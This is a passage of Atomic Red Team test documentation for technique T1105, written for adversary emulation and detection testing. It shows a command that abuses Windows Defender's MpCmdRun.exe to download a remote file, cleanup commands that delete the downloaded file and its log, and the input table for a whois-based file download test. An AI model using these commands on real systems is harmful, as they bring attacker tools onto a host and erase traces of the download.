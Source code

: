 
```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url #{remote_file} -path #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
del %temp%\MpCmdRun.log >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Must have a Windows Defender version with MpCmdRun.exe installed
##### Check Prereq Commands:
```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe /?  >nul 2>&1
```
##### Get Prereq Commands:
```cmd
Echo "A version of Windows Defender with MpCmdRun.exe must be installed manually"
```




<br/>
<br/>

## Atomic Test #14 - whois file download
Download a remote file using the whois utility

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** c99a829f-0bb8-4187-b2c6-d47d1df74cab





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote hostname or IP address | string | localhost|
| remote_port | Remote port to connect to | integer | 8443|
| output_file | Path of file to save output to | path | /tmp/T1105.whois.out|
| query | Query to send to remote server | string | Hello from Atomic Red Team test T1105|
| timeout | Timeout period before ending process (seconds) | integer | 1|


